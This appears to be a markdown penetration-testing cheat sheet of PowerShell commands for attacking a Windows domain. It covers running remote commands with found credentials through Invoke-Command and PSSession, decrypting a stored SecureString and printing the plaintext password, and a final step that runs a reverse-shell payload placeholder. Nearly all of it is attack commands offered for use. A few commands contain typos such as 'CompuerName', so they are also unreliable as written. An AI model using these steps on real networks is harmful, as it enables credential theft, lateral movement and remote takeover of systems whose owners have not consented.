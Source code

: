 ### Commands:

#### 1) $SecPassword = ConvertTo-SecureString 'PASSWORD' -AsPlainText -Force

#### 2) $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\USERNAME', $SecPassword)

#### 3) Invoke-Command -ComputerName COMPUTER_NAME -ScriptBlock { COMMAND_TO_EXECUTE } -credential $Cred;

### Use case:

### When we have valid credentials on a domain joined user, but he has no access to RDP or/and WinRM (Remote Desktop Users and Remote Management Users)

### Alternatively, we can authenticate with a PSSession

#### 4) $session = New-PSSession -CompuerName COMPUTER_NAME -Credential $Cred -Authentication AUTHENTICATION_METHOD (CREDSSP foe example)

#### 5) Enter-PSSession $session

## Alternate use case: The credentials found are encrypted in some way. To recover the credentials, we do the following commands:

 - echo > pass.txt (Pass the encrypted password to a .txt file)

 - $EncryptedString = Get-Content .\pass.txt (Set a variable that opens the content of the .txt file we created earlier)

 - $SecureString = ConvertTo-SecureString $EncryptedString 

 - $Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString

 - echo $Credential.GetNetworkCredential().password (Print the decrypted password of the user)

 - $username = 'USER'

 - $password = 'RECOVERED_PASS'

 - $securePassword = ConvertTo-SecureString $password -AsPlainText -Force

 - $credential = New-Object Automation.PSCredential($username, $securePassword)

 - Invoke-Command -ComputerName localHost -Credential $credential -ScriptBlock{YourNewRevShellPayloadHere} 


